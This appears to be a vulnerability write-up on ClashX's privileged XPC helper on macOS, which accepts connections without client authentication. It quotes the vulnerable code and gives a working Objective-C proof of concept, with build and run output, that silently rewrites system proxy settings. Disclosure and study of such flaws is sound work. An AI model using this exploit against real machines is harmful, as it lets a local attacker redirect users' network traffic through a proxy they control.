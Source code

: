 > This article was first published on the [tttang Community](https://tttang.com/archive/1904/).

## What is XPC?

- XPC is a form of IPC (Inter-Process Communication) based on Mach messaging.
- XPC components are integrated into the application itself.
- These components are packaged as bundles.
- Managed by the system daemon `launchd`, these services are started on demand, shut down when idle, and restarted after a crash.
- Third-party global XPC applications typically appear as `PrivilegedHelperTool`. These tools allow applications requiring root-level actions to install helper tools that execute privileged operations on their behalf, avoiding the need to elevate privileges repeatedly.

## In ClashX

ClashX has a `PrivilegedHelperTool` XPC service: `com.west2online.ClashX.ProxyConfigHelper`.

In the `ProxyConfigHelper.m` file, the process lacks client authentication during connection, enabling customization of the connection process:

```objectivec
- (BOOL)listener:(NSXPCListener *)listener shouldAcceptNewConnection:(NSXPCConnection *)newConnection {
//    if (![self connectionIsVaild:newConnection]) {
//        return NO;
//    }
    newConnection.exportedInterface = [NSXPCInterface interfaceWithProtocol:@protocol(ProxyConfigRemoteProcessProtocol)];
    newConnection.exportedObject = self;
    __weak NSXPCConnection *weakConnection = newConnection;
    __weak ProxyConfigHelper *weakSelf = self;
    newConnection.invalidationHandler = ^{
        [weakSelf.connections removeObject:weakConnection];
        if (weakSelf.connections.count == 0) {
            weakSelf.shouldQuit = YES;
        }
    };
    [self.connections addObject:newConnection];
    [newConnection resume];
    return YES;
}
```

From `ProxyConfigRemoteProcessProtocol.h`, we can see the XPC service provides the following methods:

```objectivec
@import Foundation;

typedef void(^stringReplyBlock)(NSString *);
typedef void(^boolReplyBlock)(BOOL);
typedef void(^dictReplyBlock)(NSDictionary *);

@protocol ProxyConfigRemoteProcessProtocol <NSObject>
@required

- (void)getVersion:(stringReplyBlock)reply;

- (void)enableProxyWithPort:(int)port
                  socksPort:(int)socksPort
                        pac:(NSString *)pac
            filterInterface:(BOOL)filterInterface
                 ignoreList:(NSArray<NSString *>*)ignoreList
                      error:(stringReplyBlock)reply;

- (void)disableProxyWithFilterInterface:(BOOL)filterInterface
                                  reply:(stringReplyBlock)reply;

- (void)restoreProxyWithCurrentPort:(int)port
                          socksPort:(int)socksPort
                               info:(NSDictionary *)dict
                    filterInterface:(BOOL)filterInterface
                              error:(stringReplyBlock)reply;

- (void)getCurrentProxySetting:(dictReplyBlock)reply;
@end
```

### Examining `enableProxyWithPort`

The function iterates through network devices to configure proxy settings:

```objectivec
- (void)enableProxyWithport:(int)port socksPort:(int)socksPort
                     pacUrl:(NSString *)pacUrl
            filterInterface:(BOOL)filterInterface
                 ignoreList:(NSArray<NSString *>*)ignoreList {

    [self applySCNetworkSettingWithRef:^(SCPreferencesRef ref) {
        [ProxySettingTool getDiviceListWithPrefRef:ref filterInterface:filterInterface devices:^(NSString *key, NSDictionary *dict) {
            [self enableProxySettings:ref interface:key port:port socksPort:socksPort ignoreList:ignoreList pac:pacUrl];
        }];
    }];
}
...
+ (void)getDiviceListWithPrefRef:(SCPreferencesRef)ref
                 filterInterface:(BOOL)filterInterface
                         devices:(void(^)(NSString *, NSDictionary *))callback {
    NSDictionary *sets = (__bridge NSDictionary *)SCPreferencesGetValue(ref, kSCPrefNetworkServices);
    for (NSString *key in [sets allKeys]) {
        NSMutableDictionary *dict = [sets objectForKey:key];
        NSString *hardware = [dict valueForKeyPath:@"Interface.Hardware"];
        if (!filterInterface || [hardware isEqualToString:@"AirPort"]
            || [hardware isEqualToString:@"Wi-Fi"]
            || [hardware isEqualToString:@"Ethernet"]
            ) {
            callback(key,dict);
        }
    }
}
...

- (NSDictionary *)getProxySetting:(BOOL)enable port:(int) port
                        socksPort: (int)socksPort pac:(NSString *)pac
                       ignoreList:(NSArray<NSString *>*)ignoreList {
    
    NSMutableDictionary *proxySettings = [NSMutableDictionary dictionary];
    
    NSString *ip = enable ? @"127.0.0.1" : @"";
    NSInteger enableInt = enable ? 1 : 0;
    NSInteger enablePac = [pac length] > 0;
```

In the `getProxySetting` function, the line `NSString *ip = enable ? @"127.0.0.1" : @"";` restricts the IP to `127.0.0.1`. However, this does not prevent malicious local addresses from being set as system proxies.

## Proof of Concept

1. Write `poc.m`:
    
    ```objectivec
    #import <Foundation/Foundation.h>
    
    static NSString *XPCHelperMachServiceName =
        @"com.west2online.ClashX.ProxyConfigHelper";
    
    typedef void (^stringReplyBlock)(NSString *);
    typedef void (^boolReplyBlock)(BOOL);
    typedef void (^dictReplyBlock)(NSDictionary *);
    
    @protocol HelperToolProtocol <NSObject>
    @required
    - (void)getVersion:(stringReplyBlock)reply;
    - (void)enableProxyWithPort:(int)port
                      socksPort:(int)socksPort
                            pac:(NSString *)pac
                filterInterface:(BOOL)filterInterface
                     ignoreList:(NSArray<NSString *> *)ignoreList
                          error:(stringReplyBlock)reply;
    - (void)disableProxyWithFilterInterface:(BOOL)filterInterface
                                      reply:(stringReplyBlock)reply;
    - (void)restoreProxyWithCurrentPort:(int)port
                              socksPort:(int)socksPort
                                   info:(NSDictionary *)dict
                        filterInterface:(BOOL)filterInterface
                                  error:(stringReplyBlock)reply;
    - (void)getCurrentProxySetting:(dictReplyBlock)reply;
    @end
    
    int main(void) {
      OSStatus err;
      NSString *service_name = XPCHelperMachServiceName;
      NSXPCConnection *connection =
          [[NSXPCConnection alloc] initWithMachServiceName:service_name
                                                   options:0x1000];
      NSXPCInterface *interface =
          [NSXPCInterface interfaceWithProtocol:@protocol(HelperToolProtocol)];
      [connection setRemoteObjectInterface:interface];
      [connection resume];
    
      id obj = [connection remoteObjectProxyWithErrorHandler:^(NSError *error) {
        NSLog(@"[-] Error: %@", error);
      }];
    
      NSLog(@"[+] obj: %@ conn: %@", obj, connection);
    
      [obj enableProxyWithPort:3333
                      socksPort:7777
                            pac:NULL
                filterInterface:YES
                     ignoreList:NULL
                          error:^(NSString *error) {
                            NSLog(@"Error: %@", error);
                          }];
      NSLog(@"[+] Done");
    }
    ```
    
2. Compile `poc.m`:
    
    ```bash
    $ clang -framework Foundation poc.m -o poc
    ```
    
3. Execute:
    
    ```bash
    ./poc                                                       
    2023-05-26 13:34:45.313 poc[13498:214914] [+] obj: <__NSXPCInterfaceProxy_HelperToolProtocol: 0x15c0044f0> conn: <NSXPCConnection: 0x15b60c4d0> connection to service named com.west2online.ClashX.ProxyConfigHelper
    2023-05-26 13:34:45.313 poc[13498:214914] [+] Done
    ```
    
System proxy settings are successfully modified, as verified:

![Proxy Settings Updated](https://github.com/user-attachments/assets/f47d0915-a6d7-4443-a60e-d0353ab5a03c)

## References

- [Apple Developer Documentation: XPC](https://developer.apple.com/documentation/xpc)

<!-- ##{"timestamp":1694880000}## -->
